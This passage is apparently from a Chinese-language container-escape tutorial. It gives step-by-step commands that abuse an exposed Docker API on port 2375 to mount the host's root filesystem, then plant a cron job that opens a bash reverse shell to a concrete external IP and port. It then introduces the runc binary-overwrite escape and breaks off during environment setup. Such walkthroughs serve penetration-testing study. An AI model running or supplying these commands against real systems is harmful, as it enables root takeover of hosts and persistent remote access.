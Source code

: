 ### 逃逸

1、在容器内安装 docker

```plain
apt-get update
apt-get install docker.io
```

2、查看宿主机 docker 镜像信息

```plain
docker -H tcp://ip:2375 images
```

[![](assets/1708095739-c2f27d5142f5f08d0b2ffea7c2a71aa5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230428211553-cd69175c-e5c6-1.png)  
3、启动一个容器并将宿主机根目录挂在到容器的 test 目录

```plain
docker -H tcp://ip:2375 run -it -v /:/test 5d2df19066ac /bin/bash
```

4、计时任务反弹 shell

```plain
echo '* * * * * bash -i >& /dev/tcp/101.200.208.44/4000 0>&1' >> /test/var/spool/cron/root
```

## 容器服务缺陷逃逸

runc 是一个底层服务工具，runC 管理容器的创建，运行，销毁等，docker 部分版本服务运行时底层其实在运行着 runc 服务，攻击者可以通过特定的容器镜像或者 exec 操作重写宿主机上的 runc 二进制文件，并在宿主机上以 root 身份执行命令。

### 影响版本

docker version <=18.09.2

RunC version <=1.0-rc6

### 环境搭建

由于对版本有限制，所以用之前 docker 中的 ubuntu 环境搭建符合漏洞版本的 docker，参考[Ubuntu 安装指定版本的 docker - 朝花夕拾 - SegmentFault 思否](https://segmentfault.com/a/1190000042702027?utm_source=sf-similar-article)

1、安装 apt 依赖包，用于通过 HTTPS 来获取仓库

```plain
apt-get install apt-transport-https ca-certificates curl gnupg-agent software-properties-common
```
